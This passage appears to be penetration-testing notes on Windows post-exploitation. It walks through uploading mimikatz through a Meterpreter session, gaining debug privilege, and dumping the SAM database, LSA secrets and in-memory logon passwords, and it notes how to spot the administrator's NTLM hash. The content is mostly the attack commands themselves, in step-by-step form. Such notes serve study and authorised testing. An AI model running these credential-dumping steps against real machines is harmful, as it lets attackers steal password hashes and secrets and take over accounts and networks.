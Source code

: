 ```
meterpreter > ?
Kiwi Commands
=============
Commands                Description
--------                -----------
golden_ticket_create    Create a golden kerberos ticket.
kerberos_ticket_list    List all kerberos tickets (unparsed)

password_change         Change the password/hash of a user.
```

Kali Linux already have mimikatz executable availble for you.

```
meterpreter > pwd
meterpreter > cd C:\\
meterpreter > mkdir Temp
meterpreter > cd Temp
meterpreter > upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
meterpreter > shell
```

Check wether you have proper privileges. That means you have required privileges in oerder to perfrom hashes extraction from memory.

```
C:\Temp>dir
C:\Temp>.\mimikatz.exe
mimikatz # privilege::debug
Privilege '20' OK
```

Dump the contents of SAM database, or rather dump the cache of the lsa or lsass process.

It provides you with domain, syskey and SAMKey. And for administrator, you have RID, which in this case is 500, which confirms this indeed is administrator users. You then have NTML hash right over here.

```
mimikatz # lsadump::sam
```

Dump LSA sercerts:

```
mimikatz # lsadump::secrets
```

One great thing we can do with mimikatz executable is to **display logon passwords**. Whenver a user logs on to Windows, if the system has been configured to store logon passwords in memory in clear text rather mimikatz can show you this passwords.

In this case, the system has been configured very well in that it not display any clear-text password. Clear-text password has been disabled on the system. If it won't, we should be able to get clear-text passwords.

```
mimikatz # sekurlsa::logonpasswords
```
